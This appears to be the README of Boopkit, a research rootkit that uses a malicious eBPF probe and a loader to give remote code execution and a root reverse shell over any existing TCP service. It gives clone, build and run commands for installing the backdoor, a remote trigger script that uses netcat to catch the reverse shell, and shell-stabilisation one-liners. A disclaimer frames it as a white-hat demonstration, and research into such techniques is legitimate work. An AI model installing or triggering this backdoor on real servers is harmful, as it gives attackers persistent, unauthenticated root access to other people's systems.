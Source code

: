 # Boopkit

A research project to demonstrate remote code injection over TCP with a malicious eBPF probe.

Tested on Linux 5.17

### Disclaimer

This is **NOT** an exploit! This requires prior priviliged access on a server in order to work!

I am a professional security researcher. These are white hat tools used for research purposes only.

Seriously please use these responsibly.

# Demo

Install `boopkit` on a server that is already running any TCP service (EG: Kubernetes, SSH, nginx, etc).

```
git clone git@github.com:kris-nova/boopkit.git
cd boopkit
make
sudo ./boopkit > /var/log/boop.log &
```

Trigger a reverse shell over an existing TCP service. Edit the `remote` launcher script and point it at any TCP server running on the exploited machine!

```
cd remote
# edit ./emote as needed
./remote
python -c "import pty; pty.spawn('/bin/bash')"
```

Enjoy the root shell over unauthenticated TCP. 

# Components

| eBPF Probe | Malicious Userspace Program                           | Remote Trigger                                              |
|------------|-------------------------------------------------------|-------------------------------------------------------------|
| Responsible for sending `tracepoint/tcp/tcp_bad_sum` events to userspace | Persistent process in Linux, that does the dirty work | Remote way to trigger the RCE over a network and TCP server |


### eBPF Probe

Can be loaded into the kernel at runtime using the userspace loader program. 
The probe responds to `tcp/tcp_bad_csum` events and will pass the `saddr` (Source Address) up to userspace using an eBPF map.


### Loader Program

This is the malicious program that will respond to the bad checksum packets sent to the server. 
Whenever a malicious packet is sent, the loader program responds with remote code execution.


### Trigger/Remote

The `trigger` binary is a small C program that will send a malformed `SYN` request without a properly calculated checksum to the server.

The `remote` script wraps the `trigger` and will use `netcat` to listen for a reverse shell.

### eBPF and Loader Compile Time Dependencies 

 - 'clang'
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Boopkit runtime dependencies 

 - Linux kernel with eBPF enabled/supported
 - Ncat running on the server
 - Root access :) 

### Reverse Shell Stabilization

After a successful `/remote` the shell will be very unsightly. 

Select one of the commands to run in order to start a cleaner shell.

```bash
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"
```

Next move the newly created shell to the background on your local terminal.

```
Ctrl + z
```

Update the stty locally. 

```bash
stty raw -echo && fg
```

Finally, reconfigure the terminal! 

```bash
export TERM=xterm-256-color
```

Source: [jasonturley.xyz](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/)
